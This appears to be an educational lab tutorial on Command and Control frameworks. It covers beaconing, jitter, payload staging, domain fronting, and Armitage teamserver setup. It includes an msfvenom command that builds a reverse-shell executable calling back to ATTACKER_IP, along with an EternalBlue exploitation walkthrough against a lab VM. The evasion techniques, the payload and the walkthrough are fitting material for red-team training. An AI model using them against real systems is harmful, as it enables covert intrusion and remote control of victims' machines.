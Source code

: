 
* Intro

** Welcome to Intro to C2 

Command and Control (C2) Frameworks are an essential part of both Red Teamers and Advanced Adversaries playbooks. They make it both easy to manage compromised devices during an engagement and often help aid in lateral movement.
** Room Objectives

In this room, we will learn about Command and Control Frameworks in-depth to gain a better understanding of the following topics:

 - How a Command and Control Framework operates
 - The various components that you may use.
 - How to set up a basic Command and Control Framework
 - Use Armitage or Metasploit to gain familiarity with a Command and Control Framework
 - How to administer a Command and Control Framework
 - OPSEC Considerations while administering a Command and Control Framework
 - And much more!

** Room Prerequisites

    General experience with the Metasploit Framework, for more information, see the Metasploit Module.
    General familiarity with Red Teaming; for more information, see the Red Team Fundamentals room.
    General familiarity with exploiting vulnerable virtual machines

* Command and Control Framework


** What is a Command and Control Framework

While trying to digest the various components of a C2 framework, it may be intimidating. However, they don’t have to be. In order to better understand what a C2 framework is at its most basic level, think of a Netcat listener (the C2 server) that is capable of handling many reverse shells calling back at once (C2 Agents). It’s a server but for reverse shells. Unlike Netcat, almost all C2 frameworks require a special payload generator. This is usually a feature that is built into the framework itself. For example, Metasploit is a C2 Framework that has its own payload generator, MSFVenom.

The Diagram above depicts three compromised clients calling back to a C2 Server.

So what exactly makes C2 frameworks better than a normal Netcat listener? It seems like all someone needs to do is implement session management into Netcat, and you have the same thing? While this is true, C2 frameworks shine in their “Post Exploitation” features.

** Command and Control Structure
*** C2 Server

In order to understand a Command and Control framework, we must first start by understanding the various components of a C2 server. Let’s start with the most essential component - The C2 Server itself. The C2 Server serves as a hub for agents to call back to. Agents will periodically reach out to the C2 server and wait for the operator’s commands.


This screenshot depicts a basic C2 server diagram.


*** Agents / Payloads

An agent is a program generated by the C2 framework that calls back to a listener on a C2 server. Most of the time, this agent enables special functionality compared to a standard reverse shell. Most C2 Frameworks implement pseudo commands to make the C2 Operator’s life easier. Some examples of this may be a pseudo command to Download or Upload a file onto the system. It’s important to know that agents can be highly configurable, with adjustments on the timing of how often C2 Agents beacon out to a Listener on a C2 Server and much more.
*** Listeners

On the most basic level, a listener is an application running on the C2 server that waits for a callback over a specific port or protocol. Some examples of this are DNS, HTTP, and or HTTPS.
*** Beacons

A Beacon is the process of a C2 Agent calling back to the listener running on a C2 Server.


** Obfuscating Agent Callbacks
*** Sleep Timers

One key thing that some security analysts, anti-virus, and next-generation firewalls look for when attempting to identify Command and Control traffic is beaconing and the rate at which a device beacons out to a C2 server. Let’s say a firewall observed traffic that looks like so

    TCP/443 - Session Duration 3s, 55 packets sent, 10:00:05.000
    TCP/443 - Session Duration 2s, 33 packets sent, 10:00:10.000
    TCP/443 - Session Duration 3s, 55 packets sent, 10:00:15.000
    TCP/443 - Session Duration 1s, 33 packets sent, 10:00:20.000
    TCP/443 - Session Duration 3s, 55 packets sent, 10:00:25.000

A pattern is starting to form. The agent beacons out every 5 seconds; this means that it has a sleep timer of 5 seconds.

*** Jitter

Jitter takes the sleep timer and adds some variation to it; our C2 beaconing may now exhibit a strange pattern that may show activity that is closer to an average user:

    TCP/443 - Session Duration 3s, 55 packets sent, 10:00:03.580
    TCP/443 - Session Duration 2s, 33 packets sent, 10:00:13.213
    TCP/443 - Session Duration 3s, 55 packets sent, 10:00:14.912
    TCP/443 - Session Duration 1s, 33 packets sent, 10:00:23.444
    TCP/443 - Session Duration 3s, 55 packets sent, 10:00:27.182

The beaconing is now set at a semi-irregular pattern that makes it slightly more difficult to identify among regular user traffic. In more advanced C2 frameworks, it may be possible to alter various other parameters, like “File” jitter or adding junk data to the payload or files being transmitted to make it seem larger than it actually is.

Sample Python3 code for Jitter may look like so:

import random

sleep = 60

jitter = random.randint(-30,30)

sleep = sleep + jitter

It's important to note that this is a fundamental example,  but it can be much more math-heavy, setting upper bounds and lower bounds, taking percentages of last sleep, and building on from there. Because this is an introduction room, we will spare you a complicated formula.


** Payload Types

Much like a regular Reverse Shell, there are two primary types of payloads that you may be able to use in your C2 Framework; Staged and Stageless payloads.

*** Stageless Payloads

Stageless Payloads are the simplest of the two; they contain the full C2 agent and will call back to the C2 server and begin beaconing immediately. You can refer to the diagram below to gain a better understanding of how Stageless payloads operate.

This screenshot depicts a stageless payload calling back to a C2 server
The steps for establishing C2 beaconing with a Stageless payload are as follows:

1. The Victim downloads and executes the Dropper
2. The beaconing to the C2 Server begins

*** Staged Payloads

Staged payloads require a callback to the C2 server to download additional parts of the C2 agent. This is commonly referred to as a “Dropper” because it is “Dropped” onto the victim machine to download the second stage of our staged payload. This is a preferred method over stageless payloads because a small amount of code needs to be written to retrieve the additional parts of the C2 agent from the C2 server. It also makes it easier to obfuscate code to bypass Anti-Virus programs.


This diagram depicts a dropper calling back to a C2 server for its second stage.

The steps for establishing C2 beaconing with a Staged payload are as follows:

1. The Victim downloads and executes the Dropper
2. The Dropper calls back to the C2 Server for Stage 2
3. The C2 Server sends Stage 2 back to the Victim Workstation
4. Stage 2 is loaded into memory on the Victim Workstation 
5. C2 Beaconing Initializes, and the Red Teamer/Threat Actors can engage with the Victim on the C2 Server.
   
** Payload Formats

As you may know, Windows PE files (Executables) are not the only way to execute code on a system. Some C2 Frameworks support payloads in various other formats, for example:

    PowerShell Scripts
        Which may contain C# Code and may be compiled and executed with the Add-Type commandlet
    HTA Files
    JScript Files
    Visual Basic Application/Scripts
    Microsoft Office Documents

and many more. For more information on various other payload formats, you should review the Weaponization room in the Initial Access module.


** Modules

Modules are a core component of any C2 Framework; they add the ability to make agents and the C2 server more flexible. Depending on the C2 Framework, scripts must be written in different languages. Cobalt Strike has “Aggressor Scripts”, which are written in the “Aggressor Scripting Language”. PowerShell Empire has support for multiple languages, Metasploit’s Modules are written in Ruby, and many others are written in many other languages.
*** Post Exploitation Modules

Post Exploitation modules are simply modules that deal with anything after the initial point of compromise, this could be as simple as running SharpHound.ps1 to find paths of lateral movement, or it could be as complex as dumping LSASS and parsing credentials in memory. For more information on Post Exploitation, refer to the Post Exploitation Basics room.
*** Pivoting Modules

One of the last major components of a C2 Framework is its pivoting modules, making it easier to access restricted network segments within the C2 Framework. If you have Administrative Access on a system, you may be able to open up an “SMB Beacon”, which can enable a machine to act as a proxy via the SMB protocol. This may allow machines in a restricted network segment to communicate with your C2 server.


This diagram depicts multiple victims with an SMB pivot calling back to a C2 server.
The diagram above shows how hosts within a restricted network segment call back to the C2 Server:

1. The Victims call back to an SMB named pipe on another Victim in a non-restricted network segment.
2. The Victim in the non-restricted network segment calls back to the C2 Server over a standard beacon.
3. The C2 Server then sends commands back to the Victim in the non-restricted network segment.
4. The Victim in the non-restricted network segment then forwards the C2 instructions to the hosts in the restricted segment.

** Facing the world 

One important obstacle that all Red Teamers must overcome is placing infrastructure in plain view. There are many different methods to do this; one of the most popular methods is called "Domain Fronting".

*** Domain Fronting

Domain Fronting utilizes a known, good host (for example) Cloudflare. Cloudflare runs a business that provides enhanced metrics on HTTP connection details as well as caching HTTP connection requests to save bandwidth.  Red Teamers can abuse this to make it appear that a workstation or server is communicating with a known, trusted IP Address. Geolocation results will show wherever the nearest Cloudflare server is, and the IP Address will show as ownership to Cloudflare.


This diagram shows an example HTTP beacon from a compromised device.
The diagram above depicts how Domain Fronting works:

1. The C2 Operator has a domain that proxies all requests through Cloudflare. 
2. The Victim beacons out to the C2 Domain.
3. Cloudflare proxies the request, then looks at the Host header and relays the traffic to the correct server.
4. The C2 Server then responds to Cloudflare with the C2 Commands.
5. The Victim then receives the command from Cloudflare.

*** C2 Profiles

The next technique goes by several names by several different products, "NGINX Reverse Proxy", "Apache Mod_Proxy/Mod_Rewrite",  "Malleable HTTP C2 Profiles", and many others. However, they are all more or less the same. All of the Proxy features more or less allow a user to control specific elements of the incoming HTTP request. Let's say an incoming connection request has an "X-C2-Server" header; we could explicitly extract this header using the specific technology that is at your disposal (Reverse Proxy, Mod_Proxy/Rewrite, Malleable C2 Profile, etc.) and ensure that your C2 server responds with C2 based responses. Whereas if a normal user queried the HTTP Server, they might see a generic webpage. This is all dependent on your configuration.


A Compromised Device and Security Analyst reach out to a C2 server, only the Compromised device gets a C2 Beacon back - the Analyst gets Cloudflare's website back.

The diagram above depicts how C2 profiles work:

1. The Victim beacons out to the C2 Server with a custom header in the HTTP request, while a SOC Analyst has a normal HTTP Request
2. The requests are proxied through Cloudflare
3. The C2 Server receives the request and looks for the custom header, and then evaluates how to respond based on the C2 Profile.
4. The C2 Server responds to the client and responds to the Analyst/Compromised device.

Because HTTPS requests are encrypted, extracting specific headers (ex: X-C2-Server, or Host) may be impossible. By using C2 Profiles, we may be able to hide our C2 server from the prying eyes of a Security Analyst. For more information on how C2 profiles can be powerful, see this blog post on Understanding Malleable C2 Profiles for Cobalt Strike.

In task 7, we will explain and explore another technique called "Redirectors". We will gain hands-on experience configuring Metasploit and Apache 2 to demonstrate how a redirector is set up.

* Common C2 Frameworks

** Common C2 Frameworks

Throughout your journey, you may encounter many different C2 Frameworks; we will discuss a few popular C2 Frameworks that are widely used by Red Teamers and Adversaries alike. We will be dividing this into two sections:

    Free
    Premium/Paid

You may ask some questions like “Why would I use a premium or paid C2 framework?”, and this is an excellent question. Premium/Paid C2 frameworks usually are less likely to be detected by Anti-Virus vendors. This is not to say that it's impossible to be detected, just that open-source C2 projects are generally well understood, and signatures can be easily be developed.

Usually, premium C2 frameworks generally have more advanced post-exploitation modules, pivoting features, and even feature requests that open-source software developers may sometimes not fulfill. For example, one feature Cobalt Strike offers that most other C2 frameworks do not is the ability to open a VPN tunnel from a beacon. This can be a fantastic feature if a Proxy does not work well in your specific situation. You must do your research to find out what will work best for your team.


** Free C2 Frameworks

*** Metasploit

The Metasploit Framework, developed and maintained by Rapid7, is one of the most popular Exploitation and Post Exploitation frameworks (C2) that is publicly available and is installed on most penetration testing distributions.

MSFConsole

           
root@kali$ msfconsole
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.1.12-dev                          ]
+ -- --=[ 2177 exploits - 1152 auxiliary - 399 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View a module's description using 
info, or the enhanced version in your browser with 
info -d

msf6 > 

        


*** Armitage

Armitage is an extension of the Metasploit Framework - it adds a Graphical user interface and is written in Java, and is incredibly similar to Cobalt Strike. This is because they were both developed by Raphael Mudge. Armitage offers an easy way to enumerate and visualize all of your targets. Aside from looking a lot like Cobalt Strike, it even offers some unique features. One of the most popular can be found in the “Attacks” menu; This feature is known as the Hail Mary attack, which attempts to run all exploits for the services running on a specific workstation. Armitage really is “Fast and Easy Hacking”.

A Screenshot of the Armitage UI


*** Powershell Empire/Starkiller

Powershell Empire and Starkiller is another incredibly popular C2 originally created by Harmjoy, Sixdub, and Enigma0x3 from Veris Group. Currently, the project has been discontinued and has been picked up by the BC Security team (Cx01N, Hubbl3, and _Vinnybod). Empire features agents written in various languages compatible with multiple platforms, making it an incredibly versatile C2. For more information on Empire, we recommend you take a look at the Powershell Empire room.


A Screenshot of the Starkiller UI

*** Covenant

Covenant by Ryan Cobb is the last free C2 Framework we will be covering - By far, it is one of the most unique C2 Frameworks being written in C#. Unlike Metasploit/Armitage, It’s primarily used for post-exploitation and lateral movement with HTTP, HTTPS, and SMB listeners with highly customizable agents.

A Screenshot of the Covenant UI

*** Sliver

Sliver by Bishop Fox is an advanced, highly customizable multi-user, CLI-based C2 framework. Sliver is written in Go, which makes reverse engineering the C2 "implants" incredibly difficult. It supports various protocols for C2 communications like WireGuard, mTLS, HTTP(S), DNS, and much more. Additionally, it supports BOF files for additional functionality, DNS Canary Domains for masking C2 communications, automatic Let's Encrypt certificate generation for HTTPS beacons, and much more.  

﻿A Screenshot of the Sliver UI
** Paid C2 Frameworks

*** Cobalt Strike

Cobalt Strike by Help Systems (Formerly created by Raphael Mudge) is arguably one of the most famous Command and Control frameworks next to Metasploit. Much like Artimage, it is written in Java and designed to be as flexible as possible. For more information, see Cobalt Strike’s Video Training Page. It offers additional insight into both Red Team Operations and the Framework by Raphael Mudge himself.

A screenshot of the Cobalt Strike UI

*** Brute Ratel

Brute Ratel by Chetan Nayak or Paranoid Ninja is a Command and Control framework marketed as a “Customizable Command and Control Center” or “C4” framework that provides a true adversary simulation-like experience with being a unique C2 framework. For more information about the Framework, the author has provided a Video Training Page that demonstrates many of the capabilities within the framework.

Screenshot of the Brute Ratel UI - Source: https://bruteratel.com/
Other C2 Frameworks

For a more comprehensive list of C2 Frameworks and their capabilities, check out the “C2 Matrix”, a project maintained by Jorge Orchilles and Bryson Bort. It has a far more comprehensive list of almost all C2 Frameworks that are currently available. We highly recommend that after this room, you go check it out and explore some of the other C2 Frameworks that were not discussed in this room.


* Setting Up a C2 Framework


** Let's Setup a C2 Server
In order to gain a better understanding of what is required to set up and administer a C2 server, we will be using Armitage. As a reminder, Armitage is a GUI for the Metasploit Framework, and because of this, it has almost all aspects of a standard C2 framework.

Note: In case you're using the AttackBox, you may skip to the Preparing our Environment section.

** Setting Up Armitage

Downloading, Building, and Installing Armitage
First, we must clone the repository from Gitlab:

** Installing Armitage

           
root@kali$ git clone https://gitlab.com/kalilinux/packages/armitage.git && cd armitage
Cloning into 'armitage'...
remote: Enumerating objects: 760, done.
remote: Counting objects: 100% (160/160), done.
remote: Compressing objects: 100% (100/100), done.
remote: Total 760 (delta 55), reused 152 (delta 54), pack-reused 600
Receiving objects: 100% (760/760), 11.81 MiB | 8.55 MiB/s, done.
Resolving deltas: 100% (244/244), done.

        

Next up, we must build the current release; we can do so with the following command:

** Building Armitage

           
root@kali$ bash package.sh
+ ./gradlew assemble

> Task :armitage:compileJava
Note: Some input files use or override a deprecated API.
Note: Recompile with -Xlint:deprecation for details.
Note: Some input files use unchecked or unsafe operations.
Note: Recompile with -Xlint:unchecked for details.

Deprecated Gradle features were used in this build, making it incompatible with Gradle 7.0.
Use '--warning-mode all' to show the individual deprecation warnings.
See https://docs.gradle.org/6.8/userguide/command_line_interface.html#sec:command_line_warnings

BUILD SUCCESSFUL in 12s
6 actionable tasks: 6 executed
+ for i in unix windows mac
+ '[' unix == mac ']'
+ mkdir -p release/unix
+ cp build.txt license.txt readme.txt whatsnew.txt release/unix
+ cp build/armitage.jar build/cortana.jar release/unix
+ cp -r dist/unix/armitage dist/unix/armitage-logo.png dist/unix/teamserver release/unix
+ '[' unix == mac ']'
+ for i in unix windows mac
+ '[' windows == mac ']'
+ mkdir -p release/windows
+ cp build.txt license.txt readme.txt whatsnew.txt release/windows
+ cp build/armitage.jar build/cortana.jar release/windows
+ cp -r dist/windows/armitage.exe release/windows
+ '[' windows == mac ']'
+ for i in unix windows mac
+ '[' mac == mac ']'
++ uname
+ '[' Linux '!=' Darwin ']'
+ echo 'Skipping macOS build because this is not running on Darwin'
Skipping macOS build because this is not running on Darwin

        


After the building process finishes, the release build will be in the ./releases/unix/ folder.  You should check and verify that Armitage was able to be built successfully.

** Verifying Build

           
root@kali$ cd ./release/unix/ && ls -la
total 11000
drwxr-xr-x 2 root root    4096 Feb  6 20:20 .
drwxr-xr-x 4 root root    4096 Feb  6 20:20 ..
-rwxr-xr-x 1 root root      75 Feb  6 20:20 armitage
-rw-r--r-- 1 root root 4334705 Feb  6 20:20 armitage.jar
-rw-r--r-- 1 root root   25985 Feb  6 20:20 armitage-logo.png
-rw-r--r-- 1 root root     282 Feb  6 20:20 build.txt
-rw-r--r-- 1 root root 6778470 Feb  6 20:20 cortana.jar
-rw-r--r-- 1 root root    1491 Feb  6 20:20 license.txt
-rw-r--r-- 1 root root    4385 Feb  6 20:20 readme.txt
-rwxr-xr-x 1 root root    2665 Feb  6 20:20 teamserver
-rw-r--r-- 1 root root   85945 Feb  6 20:20 whatsnew.txt

        

In this folder, there are two key files that we will be using:

** Teamserver -

This is the file that will start the Armitage server that multiple users will be able to connect to. This file takes two arguments:

    IP Address

Your fellow Red Team Operators will use the IP Address to connect to your Armitage server.

     Shared Password

Your fellow Red Team Operators will use the Shared Password to access your Armitage server.

** Armitage -
This is the file you will be using to connect to the Armitage Teamserver. Upon executing the binary, a new prompt will open up, displaying connection information and your username (this should be treated as a nickname, not a username for authentication) and password.


Armitage's Connection Info GUI
** Preparing our Environment

Before we can launch Armitage, we must do a few pre-flight checks to ensure Metasploit is configured properly. Armitage relies heavily on Metasploit's Database functionality, so we must start and initialize the database before launching Armitage. In order to do so, we must execute the following commands:
** Starting PostgreSQL

           
root@kali$ systemctl start postgresql && systemctl status postgresql
postgresql.service - PostgreSQL RDBMS
   Loaded: loaded (/lib/systemd/system/postgresql.service; enabled; vendor preset: enabled)
   Active: active (exited) since Sun 2022-02-06 20:16:03 GMT; 41min ago
  Process: 1587 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
 Main PID: 1587 (code=exited, status=0/SUCCESS)

Feb 06 20:16:03 ip-10-10-142-239 systemd[1]: Starting PostgreSQL RDBMS...
Feb 06 20:16:03 ip-10-10-142-239 systemd[1]: Started PostgreSQL RDBMS.

        


Lastly, we must initialize the Database so that Metasploit can use it. It's important to note that you cannot be the root user when attempting to initialize the Metasploit Database. On the AttackBox, you must use the Ubuntu user.

** Initializing PostgreSQL Database

           
user@kali$ msfdb --use-defaults delete
Stopping database at /home/ubuntu/.msf4/db
Deleting all data at /home/ubuntu/.msf4/db
MSF web service is no longer running

user@kali$ msfdb --use-defaults init
Creating database at /home/ubuntu/.msf4/db
Starting database at /home/ubuntu/.msf4/db...success
Creating database users
Writing client authentication configuration file /home/ubuntu/.msf4/db/pg_hba.conf
Stopping database at /home/ubuntu/.msf4/db
Starting database at /home/ubuntu/.msf4/db...success
Creating initial database schema
Generating SSL key and certificate for MSF web service
Attempting to start MSF web service...failed
[!] MSF web service does not appear to be started.
Please see /home/ubuntu/.msf4/logs/msf-ws.log for additional details.

        

After initialization is completed, we can finally start the Armitage Team Server. 
** Starting and Connecting to Armitage

Starting Armitage's Team Server

           
root@kali$ cd /opt/armitage/release/unix && ./teamserver YourIP P@ssw0rd123
[*] Generating X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[*] Starting RPC daemon
[*] MSGRPC starting on 127.0.0.1:55554 (NO SSL):Msg...
[*] MSGRPC backgrounding at 2022-02-06 17:47:08 -0500...
[*] MSGRPC background PID 2083
[*] sleeping for 20s (to let msfrpcd initialize)
[*] Starting Armitage team server
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[*] Use the following connection details to connect your clients:
        Host: 127.0.0.2
        Port: 55553
        User: msf
        Pass: P@ssw0rd123

[*] Fingerprint (check for this string when you connect):
        d211e51c8886113433f63b588fd5ccfc9e323059
[+] hacking is such a lonely thing, until now

        

Once your Teamserver is up and running, we can now start the Armitage client. This is used to connect to the Teamserver and displays the GUI to the user.

** Starting Armitage

           
root@kali$ cd /opt/armitage/release/unix && ./armitage
[*] Used the incumbent: 10.10.69.193
[*] Starting Cortana on 10.10.69.193
[*] Starting Cortana on 10.10.69.193
[*] Creating a default reverse handler... 0.0.0.0:8836


        


When operating a C2 Framework, you never want to expose the management interface publicly; You should always listen on a local interface, never a public-facing one. This complicates access for fellow operators. Fortunately, there is an easy solution for this. For operators to gain access to the server, you should create a new user account for them and enable SSH access on the server, and they will be able to SSH port forward TCP/55553.  Armitage explicitly denies users listening on 127.0.0.1; this is because it is essentially a shared Metasploit server with a "Deconfliction Server" that when multiple users are connecting to the server, you're not seeing everything that your other users are seeing. With Armitage, you must listen on your tun0/eth0 IP Address.


Modify the Host IP Address to whatever you set in the previous step, "Starting Armitage's Team Server".

After clicking "Connect", you will be prompted to enter a nickname. You can set this to whatever you like; only your fellow Red Team Operators will see it.

Armitage's UI to put in a custom nickname

After a moment or two, the Armitage UI should open up, until we start interacting with remote systems; it will look bare. In the next upcoming task, we will be exploiting a vulnerable virtual machine to get you more accustomed to the Armitage UI and how it can be used.

The Armitage UI

Now that Armitage is set up and working correctly, in the next task, we will learn more about securely accessing Armitage (as described above), creating listeners, various listener types, generating payloads, and much more!

* c2 Operations Basics

** Accessing and Managing your C2 Infrastructure
Now that we have a general idea of how to set up a C2 Server, we will go over some basic operational details that you should know when accessing your C2 Server. It's important to note that you are not required to perform any actions in this task - This is meant to gain general experience and familiarity with Command and Control Frameworks.

Basic Operational Security
We briefly touched on this in the last section; You should never have your C2 management interface directly accessible. This is primarily for you to improve operational security. It can be incredibly easy to fingerprint C2 servers. For example, in versions prior to 3.13, Cobalt Strike C2 servers were able to be identified by an extra space (\x20) at the end of the HTTP Response. Using this tactic, many Blue Teamers could fingerprint all of the Cobalt Strike C2 servers publicly accessible. For more information on fingerprinting and identifying Cobalt Strike C2 Servers, check out this posted on the Recorded Future blog.

Screenshot from a Hex Editor depicting the extra space at the end of an HTTP Response

The point in mentioning this is that you want to reduce your operational security risk as much as possible. If this means not having the management interface for your C2 server publicly accessible, then, by all means, you should do it.

Accessing your Remote C2 Server that's Listening Locally
This section will be focusing on how to securely access your C2 server by SSH port-forwarding; if you have port-forwarded with SSH before, feel free to skip over this section, you may not learn anything new. For those unfamiliar, SSH port-forwarding allows us to either host resources on a remote machine by forwarding a local port to the remote server, or allows us to access local resources on the remote machine we are connecting to.  In some circumstances, this may be for circumventing Firewalls.
Firewall Blocks TCP/8080

Or, in our instance, this could be done for operational security reasons.


Firewall Allows TCP/22, allowing us to access TCP/8080 over TCP/22

Now that we have a better understanding of why we want to SSH port forward, let's go over the how.
In our C2 set up from Task 4, our Teamserver is listening on localhost on TCP/55553. In order to access Remote port 55553, we must set up a Local port-forward to forward our local port to the remote Teamserver server. We can do this with the -L flag on our SSH client:

SSH Port Forward

           
root@kali$ ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
root@kali$ echo "Connected" 
Connected

Now that we have an SSH remote port forward set up, you can now connect to your C2 server running on TCP/55553. As a reminder, Armitage does not support listening on a loopback interface (127.0.0.1-127.255.255.255), so this is general C2 server admin advice. You will find this advice more centric to C2 servers like Covenant, Empire, and many others.

We highly recommend putting firewall rules in place for C2 servers that must listen on a public interface so only the intended users can access your C2 server. There are various ways to do this. If you are hosting Cloud infrastructure, you can set up a Security Group or use a host-based firewall solution like UFW or IPTables.

*** Creating a Listener in Armitage

Next, we're going to move onto a topic that all C2 servers have - this being listener creation. To stay on topic, we will demonstrate how to set up a basic listener with Armitage then explore some of the other theoretical listeners you may encounter in various other C2 Frameworks. Let's create a basic Meterpreter Listener running on TCP/31337. To start, click on the Armitage dropdown and go over to the "Listeners" section; you should see three options, Bind, Reverse, and set LHOST. Bind refers to Bind Shells; you must connect to these hosts. Reverse refers to standard Reverse Shells; this is the option we will be using.

Creating a Listener in Armitage

After clicking "Reverse," a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select. There are two options you can choose from, "Shell" or "Meterpreter". Shell refers to a standard netcat-style reverse shell, and Meterpreter is the standard Meterpreter reverse shell.

Configuring the Listener

After pressing enter, a new pane will open up, confirming that your listener has been created. This should look like the standard Metasploit exploit/multi/handler module.


Listener successfully configured

After setting up a listener, you can generate a standard windows/meterpreter/reverse_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server. 

Getting a Callback

MSFVenom Payload Generation

           
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe

After generating the windows/meterpreter/reverse_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.


Callback from the Victim

** Listener Type

As previously mentioned, standard reverse shell listeners are not the only ones that exist; there are many varieties that use many different protocols; however, there are a few common ones that we will cover, these being the following:

*** Standard Listener - 

These often communicate directly over a raw TCP or UDP socket, sending commands in cleartext. Metasploit has full support for generic listeners.

*** HTTP/HTTPS Listeners - 

These often front as some sort of Web Server and use techniques like Domain Fronting or Malleable C2 profiles to mask a C2 server. When specifically communicating over HTTPS, it's less likely for communications to be blocked by an NGFW. Metasploit has full support for HTTP/HTTPS listeners.

*** DNS Listener -

DNS Listeners are a popular technique specifically used in the exfiltration stage where additional infrastructure is normally required to be set up, or at the very least, a Domain Name must be purchased and registered, and a public NS server must be configured. It is possible to set up DNS C2 operations in Metasploit with the help of additional tools. For more information, see this "Meterpreter over DNS" presentation by Alexey Sintsov and Maxim Andreyanov. These are often very useful for bypassing Network Proxies.

*** SMB Listener - 

Communicating via SMB named pipes is a popular method of choice, especially when dealing with a restricted network; it often enables more flexible pivoting with multiple devices talking to each other and only one device reaching back out over a more common protocol like HTTP/HTTPS. Metasploit has support for Named Pipes.

* Command Control and Conquer

** Sample Exploit
*** Host Enumeration with Armitage
Before letting you go off on your own, we're going to demonstrate how to exploit a sample Virtual Machine. First, we will execute a port scan within Armitage by going to the "Hosts" section, hovering over "Nmap Scan", and selecting "Quick Scan".


Armitage submenu of Hosts -> Nmap Scan -> Quick Scan

After selecting "Quick scan", a new option will pop up; this will prompt you to enter the IP Address range you would like to scan. You should enter the IP Address of the deployed Virtual machine in this box.


Input menu of "Enter Scan Range" with the IP Address VICTIM_MACHINE

After pressing "Ok", and waiting a moment or two, you should see a new tab open up called "nmap" and a new machine display in the "Workspace" window. In the "nmap" tab, you will see the raw scan results.


Results from the Nmap port-scan

Now that you have learned how to execute a basic port scan, try to execute various other scans against the target and see what additional information you may retrieve from a host.
Hint: A Comprehensive Scan will grab banners, enumerate software versions, enumerate OS versions, and much more!

*** Exploitation with Armitage
Next up, we're going to show off exploitation with Armitage; our victim in our example is a Windows 7 machine (more specifically, Blue). This machine is vulnerable to the classic exploit "Eternal  Blue".  To find this, we will focus on the far right tab with folders, we will expand the "Exploit" dropdown, then find the "Windows" dropdown, then the "SMB" dropdown, then you will see all of the exploits.


Listing all the exploits within Armitage

Next up, you can double click your exploit of choice, or drag and drop the exploit onto the host, and a new window will open up. Clicking "launch" will fire off the exploit. 


Eternal Blue Exploit  Module Information

After clicking "Launch", you will notice a new "Exploit" tab open up. Armitage will run all of the regular checks that Metasploit normally does. In the case of Eternal Blue, it ran the standard check script followed by the exploit script until it got a successful shell. It's worth noting that by default in this Exploit, it chose a Bind shell. Make sure you fully read the exploit information and options to see if a Bind Shell or a Reverse Shell is an option.

A Successful Exploitation Attempt from Armitage

After you receive your shell, right-click on the host and select "Interact". This will open a standard shell you're familiar with. In order to get a Meterpreter shell, we recommend that you run the multi/manage/shell_to_meterpreter module.

